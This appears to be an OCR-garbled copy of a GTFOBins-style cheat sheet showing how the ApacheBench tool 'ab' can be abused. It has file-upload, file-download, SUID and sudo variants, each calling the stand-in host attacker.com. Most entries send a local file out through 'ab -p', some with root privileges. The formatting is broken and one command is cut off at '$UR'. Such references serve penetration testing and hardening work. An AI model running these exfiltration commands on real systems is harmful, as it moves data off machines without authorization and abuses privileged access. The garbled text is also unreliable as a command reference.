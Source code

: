 
## functions
file-upload
description: Upload local file via HTTP POST request.
code: |
URL=http://attacker.com/
LFILE=file_to_send
ab -p $LFILE $URL
file-download:
description: Fetch a remote file via HTTP GET request. The response is returned as part of the verbose output of the program with some limitations on the length.
code: '''
          URL=http://attacker.com/file_to_download
          ab -v2 $UR
          '''
## suid
 description: Upload local file via HTTP POST request.
## code
URL=http://attacker.com/
LFILE=file_to_send
./ab -p $LFILE $URL
sudo:
- description: Upload local file via HTTP POST request.
code: |
URL=http://attacker.com/
LFILE=file_to_send
sudo ab -p $LFILE $URL

